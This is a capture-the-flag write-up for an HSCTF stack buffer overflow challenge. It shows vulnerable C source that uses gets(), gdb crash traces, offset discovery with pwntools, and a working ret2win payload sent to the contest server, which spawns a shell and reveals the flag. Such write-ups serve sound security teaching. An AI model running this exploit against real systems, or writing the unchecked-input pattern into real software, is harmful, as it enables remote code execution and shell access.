 We are given an executable [file](./data/return-to-sender) and it's [source code](./data/return-to-sender.c)
```
$ cat return-to-sender.c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

void win() {
	system("/bin/sh");
}

void vuln() {
	char dest[8];
	printf("Where are you sending your mail to today? ");
	gets(dest);
	printf("Alright, to %s it goes!\n", dest);
}

int main() {
	setbuf(stdout, NULL);
	gid_t gid = getegid();
	setresgid(gid,gid,gid);
	vuln();
	return 0;	
}
```
In `vuln()` function, there is no boundary checking for `dest`. `gets` takes as long input as you give, so we can do a buffer overflow attack and get access to `win()` function and thus shell access. Let's see!
```
$ gdb return-to-sender
Reading symbols from return-to-sender...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/ghostman/Documents/playground/return to sender/return-to-sender 
Where are you sending your mail to today? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Alright, to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA it goes!

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
The return address has been overwritten to 0x41414141, which is the hex value of A. As long as we can find the correct amount of padding, we can control where the return pointer returns to.

Let's find the correct padding using `De Brujin sequence`. (using pwntools)
```
$ python
>>> from pwn import *
>>> cyclic(100)
'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

```
$ gdb return-to-sender
Reading symbols from return-to-sender...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/ghostman/Documents/playground/return to sender/return-to-sender 
Where are you sending your mail to today? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Alright, to aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa it goes!

Program received signal SIGSEGV, Segmentation fault.
0x61616166 in ?? ()
```
It jumped to `0x61616166`. Let's find the offset.
```
$ python
>>> from pwn import *
>>> cyclic_find(p32(0x61616166))
20
```
Great, now let's generate our payload.
```
$ python
>>> from pwn import *
>>> elf = ELF('./return-to-sender')
[*] '/home/ghostman/Documents/playground/return to sender/return-to-sender'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
>>> payload = 'A' * 20 + p32(elf.symbols['win'])
>>> challenge = remote('pwn.hsctf.com', 1234)
[x] Opening connection to pwn.hsctf.com on port 1234
[x] Opening connection to pwn.hsctf.com on port 1234: Trying 165.22.188.9
[+] Opening connection to pwn.hsctf.com on port 1234: Done
>>> challenge.sendline(payload)
>>> challenge.interactive()
[*] Switching to interactive mode
Where are you sending your mail to today? Alright, to AAAAAAAAAAAAAAAAAAAA�� it goes!
ls
bin
dev
flag
lib
lib32
lib64
return-to-sender
return-to-sender.c
cat flag
hsctf{fedex_dont_fail_me_now}
^C[*] Interrupted
```
